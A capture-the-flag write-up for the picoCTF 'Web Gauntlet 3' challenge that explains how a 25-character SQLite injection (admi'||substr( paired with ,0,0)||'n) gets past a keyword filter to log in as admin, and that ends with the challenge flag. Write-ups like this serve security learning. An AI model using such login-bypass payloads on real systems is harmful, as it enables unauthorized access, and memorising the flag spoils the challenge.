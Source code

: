 ## Description
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:8650/ Filter: http://mercury.picoctf.net:8650/filter.php

### Hints
- Each filter is separated by a space. Spaces are not filtered.
- There is only 1 round this time, when you beat it the flag will be in filter.php.
- sqlite

## Tools I Used
- None

## Thought Process
This challenge looked identical to [Web Gauntlet 2](https://github.com/shari09/ctf-writeups/tree/master/picoCTF2021/Web-Fauntlet-2) so I just tried out the same injection.

Injection:
```
username: admi'||'n'||substr(
password: ,0,0)||'
```

Uh oh, this time it had a 25 character limit, so I had to come up with a new query. However, after I looked through all the string functions SQLite has, I realized `substr()` was the only one that trimmed based on position and length. :(

Original query:\
<code>SELECT username, password FROM users WHERE username=<mark>'admi'</mark>||<mark>'n'</mark>||<mark>substr(' AND password=',0,0)</mark>||<mark>''</mark></code>

Then I realized, wasn't 2 characters just one less `||`, so I moved  `'n'` to be after the `substr(...)`, eliminating <code>'admi'||'n'<mark>||</mark>subst</code>.

Thus the new query:\
<code>SELECT username, password FROM users WHERE username=<mark>'admi'</mark>||<mark>substr(' AND password=',0,0)</mark>||<mark>'n'</mark></code>


Injection:
```
username: admi'||substr(
password: ,0,0)||'n
```
totalling 23 characters

\
Again, it gave me the response of `Congrats! You won! Check out filter.php`. So I navigated there, refreshed, and saw the flag.


## Flag
`picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}`
